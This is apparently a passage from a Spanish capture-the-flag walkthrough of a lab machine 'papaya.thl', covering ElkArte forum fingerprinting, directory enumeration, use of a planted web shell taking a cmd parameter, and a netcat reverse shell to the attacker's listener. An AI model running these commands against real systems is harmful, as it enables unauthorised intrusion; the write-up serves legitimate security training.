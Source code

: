 Nos lo guardamos por si hiciera falta. 

Ahora vamos a ver que contiene el servidor web con **whatweb**:

```bash
whatweb -a 3 http://papaya.thl
http://papaya.thl [200 OK] Apache[2.4.59], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.0.2.147], JQuery[3.6.0], PasswordField[passwrd], PoweredBy[ElkArte], Script, Title[My Community - Index], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1]

```

Vemos que usa ElkArte, un framework en php para crear un foro. Buscando posibles exploit para ese framework encontramos el siguiente PoC [https://www.exploit-db.com/exploits/52026](https://www.exploit-db.com/exploits/52026). Como podemos ver se puede conseguir un RCE subiendo un theme, pero es necesario estar autenticado y tener permisos para modificar los themes. Probando las credenciales que tenemos vemos que no obtenemos acceso.

Vamos a buscar ficheros y directorios con **feroxbuster**:

```bash
$ feroxbuster -u http://papaya.thl/themes/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php -r

500      GET        4l       13w       89c http://papaya.thl/themes/test/test.php
...

```

# Intrusión

Entre otros vemos un archivo un tanto raro. Si hemos leido el enlace anterior vemos que el fichero coincide con el PoC. Vamos a probar a ver que nos responde:

```bash
curl http://papaya.thl/themes/test/test.php
# Execute one command
www-data

# Take input from the url paramter. shell.php?cmd=whoami
```

Vemos que ejecuta un comando como www-data, pero para ello hay que añadir a la petición **?cmd=comando.** Nos ponemos a la escucha en nuestra máquina. Para obtener una shell reversa hay que mandar el comando encodeado como URL:

```bash
curl http://papaya.thl/themes/test/test.php?cmd=busybox+nc+10.0.2.5+8888+-e+bash
```

Y obtenemos la shell reversa. Hacemos el tratamiento de la shell para obtener la TTY completa:

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.147] 59434
script /dev/null -qc bash
www-data@papaya:/var/www/html/elkarte/themes/test$ ^Z
zsh: suspended  nc -nlvp 8888
```
